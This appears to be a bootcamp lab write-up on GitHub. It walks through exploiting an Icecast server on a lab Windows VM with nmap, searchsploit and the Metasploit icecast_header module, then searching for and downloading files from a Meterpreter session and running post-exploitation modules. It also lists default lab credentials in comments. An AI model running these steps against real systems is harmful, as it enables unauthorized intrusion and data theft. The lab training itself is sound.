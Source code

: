# Penetration-Test-Engagement
This activity allowed me to play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
- The CEO claims to have passwords that are long and complex and therefore unhackable.
- I was tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 
- To begin, start the Icecast server to emulate the CEO's computer. 
- Then log onto the DVW10 machine and wait for the Icecast application to popup.
- Then click `Start Server`. 
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
- Attacking machine: `Kali Linux` <!--root:toor -->
- Target machine: `DVW10` <!--IEUser:Passw0rd!-->

#### Deliverable
- [Report.docx]( Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
<!-- Run the Nmap command that performs a service and version scan against the target.-->
      nmap -sV 192.168.0.20
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture1.png)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  <!-- - Run the SearchSploit commands to show available Icecast exploits.-->
      searchsploit icecast
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture2.png)

3. Now that we know which exploits are available to us, let's start Metasploit: 
<!-- Run the command that starts Metasploit:-->
      msfconsole

4. Search for the Icecast module and load it for use.
<!-- - Run the command to search for the Icecast module: -->
      search icecast
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture3.png)

<!-- - Run the command to use the Icecast module:-->
      use exploit/windows/http/icecast_header
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture4.png)

5. Set the `RHOST` to the target machine. 
<!--   - Run the command that sets the `RHOST`:-->
      set RHOSTS 192.168.0.20
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture5.png)

6. Run the Icecast exploit.
<!--  - Run the command that runs the Icecast exploit.-->
      run
 ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture6.png)

<!--   - Run the command that performs a search for the `secretfile.txt` on the target -->
      search –f  \*secretfile\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture7.png)

 7. You should now have a Meterpreter session open.
   <!-- - Run the command to performs a search for the `recipe.txt` on the target:-->
      search –f  \*recipe\*
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture8.png)

**Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture9.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
<!--  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.-->
      run post/multi/recon/local_exploit_suggester
![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture10.png)

 
#### Bonus
- Run a Meterpreter post script that enumerates all logged on users.
  
      run post/windows/gather/enum_logged_on_users
  ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture11.png)

- Open a Meterpreter shell and gather system information for the target.
  
      shell
      ipconfig –all
  ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture12.png)

- Run the command that displays the target's computer system information:
  
      systeminfo
  ![Terminal image](https://github.com/oflore12/Penetration-Test-Engagment/blob/main/HW%2017%20images/Picture13.png)

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.


